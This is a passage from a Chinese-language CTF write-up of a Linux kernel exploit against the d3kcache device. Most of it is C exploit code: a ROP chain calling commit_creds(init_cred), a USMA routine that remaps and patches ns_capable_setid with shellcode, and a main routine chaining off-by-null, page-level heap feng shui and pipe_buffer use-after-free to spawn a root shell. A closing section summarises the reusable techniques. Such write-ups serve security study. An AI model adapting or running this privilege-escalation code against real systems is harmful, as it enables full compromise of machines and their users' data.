    pgd_addr = mm_struct_buf[9];
    printf("\033[32m\033[1m[+] Got kernel page table of current task:\033[0m"
           "0x%lx\n\n", pgd_addr);
}
/**
 * 如果没有 CONFIG_RANDOMIZE_KSTACK_OFFSET_DEFAULT，也可以把 ROP chain 写到
 * pipe_write 的栈上；该保护也可以通过 RET 滑过。
 * 但这里希望使用一种更新、更通用且不依赖 kernel image 信息的利用方式。
 * 所以直接覆盖 task_struct 就足够了。
 *
 * 如果仍然想使用常规 ROP，可以参考下面的代码。
*/
#define COMMIT_CREDS 0xffffffff811284e0
#define SWAPGS_RESTORE_REGS_AND_RETURN_TO_USERMODE 0xffffffff82201a90
#define INIT_CRED 0xffffffff83079ee8
#define POP_RDI_RET 0xffffffff810157a9
#define RET 0xffffffff810157aa
void privilege_escalation_by_rop(void)
{
    size_t rop[0x1000], idx = 0;
    /* 解析一些虚拟地址 */
    pgd_vaddr_resolve();
    /* 直接读取页表，获取 kernel stack 的物理地址 */
    puts("[*] Reading page table...");
    stack_addr_another = vaddr_resolve(pgd_addr, stack_addr);
    stack_addr_another &= (~PAGE_ATTR_NX); /* N/X bit */
    stack_addr_another += page_offset_base;
    printf("\033[32m\033[1m[+] Got another virt addr of kernel stack: \033[0m"
           "0x%lx\n\n", stack_addr_another);
    /* 构造 ROP */
    for (int i = 0; i < ((0x1000 - 0x100) / 8); i++) {
        rop[idx++] = RET + kernel_offset;
    }
    rop[idx++] = POP_RDI_RET + kernel_offset;
    rop[idx++] = INIT_CRED + kernel_offset;
    rop[idx++] = COMMIT_CREDS + kernel_offset;
    rop[idx++] = SWAPGS_RESTORE_REGS_AND_RETURN_TO_USERMODE +54 + kernel_offset;
    rop[idx++] = *(size_t*) "arttnba3";
    rop[idx++] = *(size_t*) "arttnba3";
    rop[idx++] = (size_t) get_root_shell;
    rop[idx++] = user_cs;
    rop[idx++] = user_rflags;
    rop[idx++] = user_sp;
    rop[idx++] = user_ss;
    stack_page = direct_map_addr_to_page_addr(stack_addr_another);
    puts("[*] Hijacking current task's stack...");
    sleep(5);
    arbitrary_write_by_pipe((struct page*) (stack_page + 0x40 * 3), rop, 0xff0);
}
void privilege_escalation_by_usma(void)
{
#define NS_CAPABLE_SETID 0xffffffff810fd2a0
    char *kcode_map, *kcode_func;
    size_t dst_paddr, dst_vaddr, *rop, idx = 0;
    /* 解析一些虚拟地址 */
    pgd_vaddr_resolve();
    kcode_map = mmap((void*) 0x114514000, 0x2000, PROT_READ | PROT_WRITE,
                     MAP_ANONYMOUS | MAP_PRIVATE, -1, 0);
    if (!kcode_map) {
        err_exit("FAILED to create mmap area!");
    }
    /* 因为 lazy allocation，需要手动写入一次 */
    for (int i = 0; i < 8; i++) {
        kcode_map[i] = "arttnba3"[i];
        kcode_map[i + 0x1000] = "arttnba3"[i];
    }
    /* 覆盖 kernel code 段以直接执行 shellcode */
    dst_vaddr = NS_CAPABLE_SETID + kernel_offset;
    printf("\033[34m\033[1m[*] vaddr of ns_capable_setid is: \033[0m0x%lx\n",
           dst_vaddr);
    dst_paddr = vaddr_resolve_for_3_level(pgd_addr, dst_vaddr);
    dst_paddr += 0x1000 * PTE_ENTRY(dst_vaddr);
    printf("\033[32m\033[1m[+] Got ns_capable_setid's phys addr: \033[0m"
           "0x%lx\n\n", dst_paddr);
    /* 重新映射到我们的 mmap 区域 */
    vaddr_remapping(pgd_addr, 0x114514000, dst_paddr);
    vaddr_remapping(pgd_addr, 0x114514000 + 0x1000, dst_paddr + 0x1000);
    /* 直接覆盖 kernel code 段 */
    puts("[*] Start overwriting kernel code segment...");
    /**
     * setresuid() 会通过 ns_capable_setid() 检查用户权限，
     * 因此可以直接 patch 它，让它始终返回 true。
     */
    memset(kcode_map + (NS_CAPABLE_SETID & 0xfff), '\x90', 0x40); /* nop */
    memcpy(kcode_map + (NS_CAPABLE_SETID & 0xfff) + 0x40,
            "\xf3\x0f\x1e\xfa"  /* endbr64 */
            "H\xc7\xc0\x01\x00\x00\x00"  /* mov rax, 1 */
            "\xc3", /* ret */
            12);
    /* 现在获取 root */
    puts("[*] trigger evil ns_capable_setid() in setresuid()...\n");
    sleep(5);
    setresuid(0, 0, 0);
    get_root_shell();
}
/**
 * 仅用于测试 CFI 是否可用
*/
void trigger_control_flow_integrity_detection(void)
{
    size_t buf[0x1000];
    struct pipe_buffer *pbuf = (void*) ((size_t)buf + TRD_PIPE_BUF_SZ);
    struct pipe_buf_operations *ops, *ops_addr;
    ops_addr = (struct pipe_buf_operations*)
                 (((size_t) info_pipe_buf.page - vmemmap_base) / 0x40 * 0x1000);
    ops_addr = (struct pipe_buf_operations*)((size_t)ops_addr+page_offset_base);
    /* 两个随机 gadget */
    ops = (struct pipe_buf_operations*) buf;
    ops->confirm = (void*)(0xffffffff81a78568 + kernel_offset);
    ops->release = (void*)(0xffffffff816196e6 + kernel_offset);
    for (int i = 0; i < 10; i++) {
        pbuf->ops = ops_addr;
        pbuf = (struct pipe_buffer *)((size_t) pbuf + TRD_PIPE_BUF_SZ);
    }
    evil_2nd_buf.page = info_pipe_buf.page;
    evil_2nd_buf.offset = 0;
    evil_2nd_buf.len = 0;
    /* 劫持第 4 个 pipe，使其指向第 2 个 pipe */
    write(pipe_fd[self_3rd_pipe_pid][1],&evil_4th_buf,sizeof(evil_4th_buf));
    /* 劫持第 2 个 pipe 用于任意读，第 3 个 pipe 指向第 4 个 pipe */
    write(pipe_fd[self_4th_pipe_pid][1],&evil_2nd_buf,sizeof(evil_2nd_buf));
    write(pipe_fd[self_4th_pipe_pid][1],
          temp_zero_buf,
          TRD_PIPE_BUF_SZ - sizeof(evil_2nd_buf));
    /* 劫持第 3 个 pipe，使其指向第 4 个 pipe */
    write(pipe_fd[self_4th_pipe_pid][1],&evil_3rd_buf,sizeof(evil_3rd_buf));
    /* 将数据写入目标 page */
    write(pipe_fd[self_2nd_pipe_pid][1], buf, 0xf00);
    /* 触发 CFI */
    puts("[=] triggering CFI's detection...\n");
    sleep(5);
    close(pipe_fd[self_2nd_pipe_pid][0]);
    close(pipe_fd[self_2nd_pipe_pid][1]);
}
int main(int argc, char **argv, char **envp)
{
    /**
     * Step.O - 基础工作
     */
    save_status();
    /* 绑定到 CPU 0 */
    bind_core(0);
    /* 设备文件 */
    dev_fd = open("/dev/d3kcache", O_RDWR);
    if (dev_fd < 0) {
        err_exit("FAILED to open /dev/d3kcache!");
    }
    /* 喷射 pgv 页面 */
    prepare_pgv_system();
    prepare_pgv_pages();
    /**
     * Step.I - 通过页级堆风水制造 cross-cache off-by-null，
     * 让两个 pipe_buffer 指向同一个 page
     */
    corrupting_first_level_pipe_for_page_uaf();
    /**
     * Step.II - 将 victim page 重新分配为 pipe_buffer，
     * 泄露 page 相关地址并构造第二级 pipe UAF
     */
    corrupting_second_level_pipe_for_pipe_uaf();
    /**
     * Step.III - 将第二级 victim page 重新分配为 pipe_buffer，
     * 构造三个指向自身 page 的 pipe_buffer
     */
    building_self_writing_pipe();
    /**
     * Step.IV - 通过 pipe 泄露基础信息
     */
    info_leaking_by_arbitrary_pipe();
    /**
     * Step.V - 不同利用方法
     */
    if (argv[1] && !strcmp(argv[1], "rop")) {
        /* 传统方式：通过 ROP 获取 root */
        privilege_escalation_by_rop();
    } else if (argv[1] && !strcmp(argv[1], "cfi")) {
        /* 额外步骤：检查 CFI 是否可用 */
        trigger_control_flow_integrity_detection();
    } else if (argv[1] && !strcmp(argv[1], "usma")) {
        privilege_escalation_by_usma();
    }else {
        /* 默认方式：搜索 init_task 并覆盖当前进程 */
        privilege_escalation_by_task_overwrite();
    }
    /* 正常不应执行到这里，因此触发 panic */
    trigger_control_flow_integrity_detection();
    return 0;
}
```

## 方法总结

- 核心技巧：isolated `kmem_cache` off-by-null、page-level heap fengshui、`PF_PACKET` ring 控制 buddy pages、`pipe_buffer` 指针低字节篡改、page-level UAF、self-writing pipes、任意物理内存读写。
- 识别信号：漏洞对象在独立 cache 中且只能 off-by-null 时，常规同 cache 覆盖不可行，应考虑跨 cache、页级相邻布局和低字节对齐概率。
- 复用要点：CVE-2017-7308 提供的是可控 order pages 的分配技巧，Dirty Pipe 提供的是 `pipe_buffer` 可转化为页读写 primitive 的结构认知；最终提权可以改 `task_struct.cred`、写内核栈 ROP 或做 USMA 页表映射。
